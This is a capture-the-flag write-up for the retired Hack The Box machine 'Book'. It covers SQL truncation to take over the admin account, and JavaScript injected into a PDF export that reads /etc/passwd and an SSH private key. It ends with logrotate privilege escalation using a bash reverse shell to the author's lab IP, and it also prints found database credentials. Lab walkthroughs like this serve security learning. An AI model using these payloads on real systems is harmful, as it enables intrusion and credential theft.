 # Book

This is the write-up for the box Book that got retired at the 11th July 2020.
My IP address was 10.10.14.7 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.176    book.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/book.nmap 10.10.10.176
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 f7:fc:57:99:f6:82:e0:03:d6:03:bc:09:43:01:55:b7 (RSA)
|   256 a3:e5:d1:74:c4:8a:e8:c8:52:c7:17:83:4a:54:31:bd (ECDSA)
|_  256 e3:62:68:72:e2:c0:ae:46:67:3d:cb:46:bf:69:b9:6a (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: LIBRARY - Read | Learn | Have Fun
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The homepage is on _index.php_ and is a login form to some application:

![Login form](book_web-1.png)

By clicking on _Sign Up_ and using any information, it is possible to _Sign In_ and get forwarded to _home.php_.

![Library homepage](book_web-2.png)

On this page is a menu with the following pages:
- _books.php_
- _search.php_
- _feedback.php_
- _collections.php_
- _contact.php_
- _profile.php_
- _settings.php_

The images on _books.php_ forward to _download.php_ and _contact.php_ shows a potential username called _admin[@]book.htb_.
There is also a page on _/admin_ that has a different login page:

![Admin Sign In](book_web-3.png)

After trying out different Web vulnerabilities like **SQL Injection** and **XSS**, none of the input fields of the pages resolve in errors.
This means the _Sign In / Sign Up_ page should be focused and the _admin_ user could be taken over somehow.

In the HTML source code of _index.php_ on the login form is some JavaScript that says that the username should not be more than 20 characters:
```
(...)
alert("Please fill name field. Should not be more than 10 characters");
return false;

if (y == "") {
alert("Please fill email field. Should not be more than 20 characters");
return false;
(...)
```

The username can be duplicates, but the email address has to be unique on the login form.
The username _admin[@]book.htb_ has 14 characters, so by adding 6 blank characters and 1 random letter at the end, it may truncate the 21st letter and ignore all the whitespaces.
This method is called **SQL Truncation** and could result in successful login with the admin user.

Creating username _admin[@]book.htb++++++1_ _(the plus symbol is used to symbolize spaces)_:
```
POST /index.php HTTP/1.1
Host: 10.10.10.176
(...)

name=test1&email=admin%40book.htb      1&password=Test123
```

Now the login with _admin[@]book.htb_ and the given password works, as the whitespaces get truncated.
The login also works on the _/admin_ page:

![Library Admin Panel](book_web-4.png)

### Exploiting Admin Panel

In the _Collections_ menu are two PDFs that can be downloaded.
One shows the existing users and the other one the collections on the web application.

I changed the username of the initially created user to `"<b>test<\b>"` to see if it processes HTML syntax.
It does not process it on the web page, but the PDF creation tool does and shows the username in bold letters:

![Users PDF export](book_web-5.png)

As the usernames have a character limit, we can create a malicious _Collection_ to inject **JavaScript** code into the PDF creation tool.

Creating a new _Collection_ with JavaScript in the book title:
```
Book Title: <script> x=new XMLHttpRequest; x.onload=function(){document.write(this.responseText)}; x.open("GET","file:///etc/passwd");x.send(); </script>
```

![Creating new Collection](book_web-6.png)

After exporting the Collection PDF with the _admin_, the contents of the PDF are all users from _/etc/passwd_, which proofs that reading local files is possible:
```
root:x:0:0:root:/root:/bin/bash
(...)
reader:x:1000:1000:reader:/home/reader:/bin/bash
```

The only user with a shell set is _reader_, so lets try to guess the name of the SSH key and display the contents:
```
<script> x=new XMLHttpRequest; x.onload=function(){document.write(this.responseText)}; x.open("GET","file:///home/reader/.ssh/id_rsa");x.send(); </script>
```

Now we got the SSH key of _reader_ and as it is incorrectly formatted, the **pdftohtml** tool is able to format it correctly:
```
pdftohtml 5889.pdf
```

The string has to be copied into a new file and can be formatted with **Vim** or any other text editor:
```
vim reader_id.rsa

:%s/<br\/>/\r/g
```
```
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEA2JJQsccK6fE05OWbVGOuKZdf0FyicoUrrm821nHygmLgWSpJ
(...)
-----END RSA PRIVATE KEY-----
```
```
chmod 600 reader_id.rsa
```

Now the SSH key is usable to login to the box as _reader_:
```
ssh -i reader_id.rsa reader@10.10.10.176
```

## Privilege Escalation

In the home directory of _reader_ in _/home/reader_ is a writable log file in _backups/access.log.1_ with the following content:
```
192.168.0.104 - - [29/Jun/2019:14:39:55 +0000] "GET /robbie03 HTTP/1.1" 404 446 "-" "curl"
```

There is also a bash script called _lse.sh_ which is the [linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration) tool.
The file _/var/www/html/db.php_ contains credentials for the **MySQL** database, that could be useful:
```
$conn = mysqli_connect("localhost","book_admin","I_Hate_Book_Reading","book");
(...)
```

After running **LinPeas** to enumerate the box more, it shows that **logrotate** runs on it and the _backups/access.log.1_ is a writable log file to exploit a [Logrotate Vulnerability](https://book.hacktricks.xyz/linux-unix/privilege-escalation#logrotate-exploitation).

This vulnerability works only when a user logs in, but the `last` command shows, that root is constantly login in.
We can use the [logrotten exploit on GitHub](https://github.com/whotwagner/logrotten), that has to be uploaded to the box and then compiled there:
```
gcc logrotten.c -o logrotten

./logrotten
```

Creating the reverse shell payload bash script _(shell.sh_):
```
bash -i >& /dev/tcp/10.10.14.7/9001 0>&1
```

Forcing _access.log_ to rotate and executing **logrotten** with the reverse shell payload:
```
cp /home/reader/backups/access.log.1 /home/reader/backups/access.log; ./logrotten -p shell.sh /home/reader/backups/access.log
```

After the next root login, the listener on my IP and port 9001 starts a shell session as root!
